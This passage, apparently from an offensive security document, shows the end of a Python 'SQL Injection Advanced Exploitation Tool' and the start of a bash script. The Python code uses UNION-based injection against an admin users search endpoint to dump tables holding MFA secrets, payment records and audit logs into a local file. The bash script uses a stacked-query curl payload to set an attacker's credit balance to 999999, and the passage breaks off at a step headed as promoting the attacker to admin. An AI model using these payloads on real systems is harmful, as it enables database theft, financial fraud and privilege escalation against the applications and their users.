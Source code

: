 ```python
        ("admin_mfa_enrollments", ["admin_user_id", "secret_encrypted"]),
        ("credit_purchases", ["purchase_id", "user_id", "amount_dollars", "stripe_charge_id"]),
        ("user_credits", ["user_id", "panel_balance"]),
        ("admin_audit_logs", ["admin_user_id", "action", "resource_type", "resource_id"])
    ]
    
    exfiltrated_data = {}
    
    for table_name, columns in tables:
        print(f"[+] Dumping table: {table_name}")
        
        column_list = ",".join(columns)
        
        # Use UNION to extract data
        payload = f"test' UNION SELECT {column_list} FROM {table_name}--"
        
        response = requests.get(
            f"{TARGET_API}/api/admin/users",
            params={"search": payload},
            headers={"Authorization": f"Bearer {ADMIN_TOKEN}"}
        )
        
        if response.status_code == 200:
            data = response.json()
            exfiltrated_data[table_name] = data
            print(f"[SUCCESS] Extracted {len(data)} rows from {table_name}")
        else:
            print(f"[-] Failed to extract {table_name}")
    
    # Save all exfiltrated data
    with open("exfiltrated_database.json", "w") as f:
        json.dump(exfiltrated_data, f, indent=2)
    
    print("[+] Complete database dump saved to exfiltrated_database.json")

if __name__ == "__main__":
    print("=" * 60)
    print("SQL Injection Advanced Exploitation Tool")
    print("=" * 60)
    
    trigger_second_order_sqli()
    extract_data_via_error_based()
    automated_data_exfiltration()
```

**Database Manipulation via SQL Injection**
```bash
#!/bin/bash
# sqli_database_manipulation.sh - Modify database through SQL injection

TARGET_API="https://api.example.com"
ADMIN_TOKEN="token_here"
ATTACKER_USER_ID="attacker-uuid"

echo "[+] Modifying database via SQL injection..."

# Attack 1: Grant unlimited credits to attacker
echo "[+] Granting unlimited credits..."
PAYLOAD="test'; UPDATE user_credits SET panel_balance=999999 WHERE user_id='${ATTACKER_USER_ID}';--"
curl -s -X GET "${TARGET_API}/api/admin/users?search=${PAYLOAD}" \
  -H "Authorization: Bearer ${ADMIN_TOKEN}"

# Attack 2: Promote attacker to admin
```